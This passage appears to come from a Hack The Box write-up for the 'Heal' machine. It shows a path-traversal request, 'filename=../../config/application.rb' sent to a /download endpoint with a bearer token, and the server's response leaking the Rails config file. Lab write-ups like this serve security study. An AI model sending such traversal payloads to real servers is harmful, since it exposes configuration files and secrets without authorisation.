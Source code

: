 ```c
<--- CUT FOR BREVITY --->
# Added by `rbenv init` on Fri Sep 27 06:32:32 AM UTC 2024
eval "$(~/.rbenv/bin/rbenv init - --no-rehash bash)"
export PATH="$HOME/.rbenv/bin:$PATH"
eval "$(rbenv init -)"

export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"  # This loads nvm
[ -s "$NVM_DIR/bash_completion" ] && \. "$NVM_DIR/bash_completion"  # This loads nvm bash_completion
```

Since we now knew that we were dealing with an `application` written in `Ruby` our man `Bushidosan` came up with the idea looking for the default name for an `Ruby application`. And indeed we found it by going back `step by step` each folder until something hit.

- [https://www.digitalocean.com/community/tutorials/how-to-build-a-ruby-on-rails-application](https://www.digitalocean.com/community/tutorials/how-to-build-a-ruby-on-rails-application)

```c
GET /download?filename=../../config/application.rb  HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ


```

```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Dec 2024 20:24:29 GMT
Content-Type: application/octet-stream
Content-Length: 1237
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="application.rb"; filename*=UTF-8''application.rb
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: b7c6bba4-068e-4663-88be-2508812b4200
x-runtime: 0.002585
vary: Origin

require_relative "boot"

require "rails/all"
```